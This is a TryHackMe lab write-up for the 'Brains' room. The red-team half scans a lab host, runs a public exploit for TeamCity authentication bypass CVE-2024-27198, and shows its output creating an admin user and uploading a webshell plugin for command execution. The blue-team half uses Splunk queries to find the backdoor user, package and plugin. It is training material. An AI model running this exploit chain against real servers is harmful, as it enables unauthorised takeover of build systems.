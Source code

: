 ```yaml
---
title: "TryHackMe: Brains"
author: jaxafed
categories: [TryHackMe]
tags: [web, authentication bypass, rce, splunk]
render_with_liquid: false
media_subpath: /images/tryhackme_brains/
image:
  path: room_image.webp
---
```


**Brains** was a room focused on an **authentication bypass** vulnerability in **TeamCity** (**CVE-2024-27198**). We began as an attacker, exploiting the vulnerability to achieve **remote code execution (RCE)** and capture a flag. Afterward, we switched roles to become a defender, using **Splunk** to inspect logs and answer questions related to an attacker who had compromised a machine using the same vulnerability.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/brains){: .center }

## Red Team

We begin the room on the red side, tasked with attacking a target. Starting with an `nmap` scan.

### Nmap Scan

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.164.206
Nmap scan report for 10.10.164.206
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
|   256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_  256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open  ibm-db2?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Fri, 04 Oct 2024 23:37:31 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
...
```

Three ports are open:

- **22** (SSH)
- **80** (HTTP)
- **50000** (HTTP)

### Web 80

Upon visiting `http://10.10.164.206/`, we encounter a simple page displaying a "Maintenance" message.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

### Web 50000

Accessing `http://10.10.164.206:50000/`, we find a `TeamCity Version 2023.11.3 (build 147512)` installation.

![Web 50000 Index](web_50000_index.webp){: width="1200" height="600" }

### CVE-2024-27198

Searching for vulnerabilities in `TeamCity Version 2023.11.3`, we discover [this article](https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199), which details an **authentication vulnerability** in **TeamCity** due to URL parsing. It also explains how this can be exploited for **remote code execution (RCE)** by using the vulnerability to interact with the API, allowing the creation of an admin account that can then be used to upload a malicious plugin.

Looking for available exploits, we find [this exploit](https://github.com/W01fh4cker/CVE-2024-27198-RCE) that automates the aforementioned steps.

After downloading and running the exploit, we gain a shell as the `ubuntu` user and can read the flag located at `/home/ubuntu/flag.txt`.

```console
$ python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.164.206:50000

 _____                     ____ _ _           ____   ____ _____
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker

[+] User added successfully, username: xbbzhkls, password: RdlWm1rrIS, user ID: 11
[+] The target operating system version is linux
[!] The current version is: 2023.11.3 (build 147512). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y
[+] The malicious plugin FAzd42PL was successfully uploaded and is trying to be activated
[+] Successfully load plugin FAzd42PL
[+] The malicious plugin FAzd42PL was successfully activated! Webshell url: http://10.10.164.206:50000/plugins/FAzd42PL/FAzd42PL.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
command > wc -c /home/ubuntu/flag.txt
38 /home/ubuntu/flag.txt
```
{: .wrap }


## Blue Team

Next, we transition to the blue side, starting by logging into the provided `Splunk` server and navigating to the `Search & Reporting` section.

### Added User

Our first question is: **What is the name of the backdoor user that was created on the server after exploitation?** 

We can find this by searching the `/var/log/auth.log` source for the `useradd` string with the query: `source="/var/log/auth.log" *useradd*`.

We can observe the backdoor user being created on **July 4, 2024**.

![Splunk Useradd](splunk_useradd.webp){: width="1200" height="600" }

### Installed Package

Our next question is: **What is the name of the malicious-looking package installed on the server?** 

To find the answer, we can look for packages installed around the same timeframe as the user creation using the `/var/log/dpkg.log` source with the query: `source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*`.

![Splunk Package Installed](splunk_package_installed.webp){: width="1200" height="600" }

### Plugin Upload

The final question is: **What is the name of the plugin installed on the server after successful exploitation?** 

We can find the answer by searching the `/opt/teamcity/TeamCity/logs/teamcity-activities.log` source for the `plugin` keyword: `source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*`.

![Splunk Plugin Upload](splunk_plugin_upload.webp){: width="1200" height="600" }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>